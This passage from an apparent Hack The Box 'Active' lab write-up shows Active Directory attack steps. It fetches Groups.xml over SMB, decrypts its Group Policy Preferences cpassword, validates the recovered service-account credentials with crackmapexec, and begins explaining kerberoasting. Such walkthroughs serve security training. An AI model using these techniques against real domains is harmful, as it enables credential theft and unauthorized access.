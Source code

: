 ## Downloading and reading the content
```console
smb: \> get \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml (1.2 KiloBytes/sec) (average 1.2 KiloBytes/sec)
```
```console
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
- We get a username and  a hash.
- `SVC_TGS:edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

## Decrypting the hash
To decrypt we need encryption key and an IV.
![image](/assets/images/htb-boxes/active/Pasted image 20210704111207.png)
From [this](https://github.com/t0thkr1s/gpp-decrypt/blob/master/gpp-decrypt.py) repo, I got the key, IV and the mode of AES encryption.

## Using cyberchef to decrypt the hash
![image](/assets/images/htb-boxes/active/Pasted image 20210704111416.png)
We get the password for the svc_tgs.


## Checking if the creds are valid
```console
reddevil@ubuntu:~/Documents/htb/retired/active$ cme smb active.htb -u user -p pass 
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\svc_tgs:GPPstillStandingStrong2k18 
```
We have valid creds.

## Listing the shares
![image](/assets/images/htb-boxes/active/Pasted image 20210704113257.png)
Doesnot look like we can do much with it. We can read few default shares and the Replication share.

## Checking if there are any kerberoastable users
-   Those accounts which have their Service Principal Name(SPN) set are kerberoastable. Usually these accounts are service accounts.
-   For kerberoastable account, we can request a TGS and some portion of data inside this TGS is encrypted with the NTLM hash of the service account which we can try and crack offline.
-   To request for TGS, we must have a valid account on the domain.
